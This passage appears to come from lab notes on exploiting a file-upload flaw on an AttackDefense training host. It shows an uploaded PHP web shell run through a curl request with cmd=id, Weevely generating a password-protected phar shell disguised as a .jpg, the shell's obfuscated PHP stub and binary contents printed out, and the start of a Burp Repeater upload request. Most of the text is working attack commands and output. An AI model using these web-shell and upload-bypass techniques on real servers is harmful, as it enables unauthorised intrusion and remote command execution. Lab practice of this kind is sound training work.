 ```http
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:55:15 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4061



<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a> 📌                   </div>

[...]
```

`curl -X GET 'https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/shell.jpg/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre> 🚩
```

`weevely generate 'password123' ./weevely_shell.jpg`:
```
Generated './weevely_shell.jpg' with password 'password123' of 692 byte size.
```

`file ./weevely_shell.jpg`:
```
./weevely_shell.jpg: PHP phar archive with SHA1 signature
```

`cat ./weevely_shell.jpg`:
```
<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/x�X�S`z�U�Qk�0���+J�hBE׭�v5�{l{Wj��hMJ▒�S�����0��%�\�]>��_ECǰ�$��E�%Ia�夘��M��2JzTq�XUEGI(bD-'/�U}�����w�n���UG-�2�?Qpس��w�6RS�)47�PN�VKA����M�!�{      b4▒^а
                                                             �  � `&�)�����
v�Ի�������RU>�Z+��P8��d��4`XjF&Y�▒�����h'��(��<�fJ�GG�����/3��s�u��^6�.��X�p@���D�M��E��R�RR8��5���Ѓm����(dR��hd�{���H=������of��ViG    ��
,v�c��!A��0lA.�Z�z$���m.�GBMB
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------36226146085396895671660538828
Content-Length: 750
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
```